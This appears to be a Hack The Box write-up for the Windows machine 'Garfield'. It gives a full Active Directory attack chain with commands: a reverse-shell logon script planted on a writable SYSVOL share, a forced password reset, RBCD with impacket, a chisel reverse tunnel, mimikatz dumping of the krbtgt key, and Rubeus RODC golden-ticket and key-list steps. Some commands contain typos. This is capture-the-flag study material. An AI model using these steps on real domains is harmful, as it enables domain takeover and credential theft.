{HackTheBox_Machine_WriteUp}

---

| Machine Name | Garfield       |
| ------------ | -------------- |
| OS           | Windows        |
| Difficulty   | Hard           |
| IP Address   | 10.129.244.207 |
| Release Date | 4th April 2026 |
| Pwned Date   | 5th April 2026 |

---

#### Table of Contents 

##### 1. Executive Summary
##### 2. Reconnaissance
   ###### 2.1  Port Scanning
##### 3. Initial Access 
##### 4. Lateral Movement 
##### 5. Privilege Escalation
##### 6. Post-Exploitation 
##### 7. Proof's
##### 8. References


---

#### 1. Executive Summary

This report documents the penetration testing process of the "Garfiled" machine from Hack The Box.The objective was to identify vulnerabilities and exploit them to achieve full system compromise (user + root). 

We have given the user and it's password 'j.arbuckle : Th1sD4mnC4t!@1978' . In this machine we will encounter with the writable share to get access to low privilege user.The found user will has ability to gain access to RODC Administrator Group which will found in BloodHound Data.That lead's to Administrator account access to RODC01 machine.With that privilege, We weill generate a golden ticket for an administrator on machine DC01.


---

#### 2. Reconnaissance

##### 2.1. Port Scanning

```
sudo nmap -sC -sV -p- 10.129.244.207 --min-rate 3000 -oN nmap_scan
```

Open Port's :
53,88,135,139,389,445,464,593,636,2179,3268,3869,3389,5985,9389,49666,49670,49761,49762,49763,49764,49900,49987.


---

#### 3. Initial Access

We have check the credentials against smb and found the writable share on SYSVOL.

```
nxc smb 10.129.244.207 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares
```

On that share,i have found the script folder which is writable.I have uploaded a revshell payload on that folder.
Using he bloodyad, we can execute the .bat file to gain shell as 'l.wilson' user.

```
bloodyad -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978'  --host 10.129.244.207 set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb"  scriptpath -v 'printerDetect.bat'
```


**Shell As l.wilson : Captured**

User 'l.wilson' hash a forcechange password permission on 'l.wilson_adm' user.
Use below payload to reset **l.wilson_adm** password ;

```
$NewPassword = ConvertTo-SecureString 'Pass@123' -AsPlainText -Force
Set-ADAccount -Identity 'l.wildon_adm' -NewPassword $NewPassword -Reset
```

**User 'l.wilson_adm' : Access gotten .**

---

#### 4. Lateral Movement

User 'l.wilson_adm' has an addself right's over RODC ADMINISTRATOR Group.We will use below step's to add user 'l.wilson_adm' to RODC ADMINISTRATOR group.

```
 bloodyad --host "10.129.244.207" -d "garfield.htb" -u "l.wilson_adm" -p "Pass@123" add groupMember "RODC Administrators" "l.wilson_adm"
```

This Time We will get the bloodhound data again to check what other permission we have now.
This give's us information about user is, l.wilson_adm now have WriteAccountRestriction permission over RODC01 machine.

I have noticed that machine RODC01 has ip 192.168.100.2 taht means we have to create a chisel server to connect to that ip from our machine.

```
chisel server -p 8000 --reverse  ### on kali 

chisel.exe client tun0_ip:8000 R:socks ### on Server
```

As we have create a tunnel.Now we can access RODC01 machine.

We will use below step's to get acces to RODC01 machine.

```
impacket-addcomputer -computer-name 'koham$' -computer-pass 'Koham@2026' -dc-ip 10.129.244.207 garfield.htb/l.wilson_adm:'Pass@123'

proxychains impacket-rbcd -delegate-from 'koham$' -delegate-to 'RODC01$' -action 'write' 'garfield.htb/l.wilson_adm:Pass@123' -dc-ip 192.168.100.2

impacket-getST -spn 'cifs/RODC01.garfield.htb' -impersonate 'Administrator' garfield.htb/koham\$:'Koham@2026' -dc-ip 10.129.244.207

```

Now, we can get access on machine RODC01.

```
proxychains impacket-psexec -k -no-pass RODC01.garfield.htb
```

**We are now have system on RODC01.**

---

#### 5. Privilege Escalation

Gemini give's information about RODC group is : By default, RODCs do not store the password hashes of domain accounts. Instead, when a user logs in at a branch office, the RODC forwards the authentication request to a writable DC.

    Allowed List vs. Denied List: The PRP determines which credentials can be cached locally on the RODC for offline authentication.

So we need to modify Password Replication Policy : Below step will help us to change the policy.

```

bloodyad --host garfield.htb -u l.wilson_adm -p 'Pass@123' set object "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" msDS-RevealOnDemandGroup -v "CN=Allowed RODC Password Replication Group,CN=Users,DC=garfield,DC=htb" -v "CN=Administrator,CN=Users,DC=garfield,DC=htb"


bloodyad --host garfield.htb -u l.wilson_adm -p 'Pass@123' set object "CN=RODC01,OU=Domain Controllers,DC=garfield,DC=htb" msDS-NeverRevealGroup -v "CN=Account Operators,CN=Builtin,DC=garfield,DC=htb" -v "CN=Server Operators,CN=Builtin,DC=garfield,DC=htb" -v "CN=Backup Operators,CN=Builtin,DC=garfield,DC=htb"

```


Now,We will use the RODC01 access to get aes256 key for krbtgt_8245 machine.

```
mimikatz.exe

# lsadump::lsa /inject /name:krbtgt_8245
```

Next,Back on l.wilson_adm user.

```
evil-winrm -i 10.129.244.207 -u 'l.wilson_adm' -p 'Pass@123'
```

We are creating a golden ticket for Administrator account on DC01 machine.

Use below step's to get kirbi ticket for Administrator account.

```

.\Rubeus.exe golden /rodcNumber:8245 /flags:forwardable,renewable,enc_pa_rep /nowrap /outfile:ticket.kirbi /aes256:d6c93cbe006372adb8403630f9e86594f52c8105a52f9b21fef62e9c7a75e240 /user:Administrator /id:500 /domain:garfield.htb /sid:S-1-5-21-2502726253-3859040611-225969357

.\Rubeus.exe asktgs /enctype:aes256 /keyList /service:krbtgt/garfield.htb /dc:DC01.garfield.htb /ticket:ticket_2026_04_05_07_22_15_Administrator_to_krbtgt@GARFIELD.HTB.kirbi /nowrap

```

We will get base64 string as an output from this one.

using that for getting root access over Administrator account on Machine DC01.
Put that string in ticket.b64 and follow below step's to access administrator account.

```
cat ticket.b64 | base64 -d > ticket.kirbi

impacket-getST -spn 'cifs/DC01.garfield.htb' -k -no-pass -dc-ip 10.129.244.207 garfield.htb/Administrator

export KRB5CCNAME=Administrator.ccache

impacket-psexec -k -no-pass DC01.garfiled.htb

```

**Root Access on DC01 Granted** 

---

#### 6. Proof's







































---

#### 7. References

https://www.thehacker.recipes/ad/movement/credentials/dumping/kerberos-key-list
https://github.com/Flangvik/SharpCollection/tree/master/NetFramework_4.7_x64


---

{HackTheBox_Machine_WriteUp}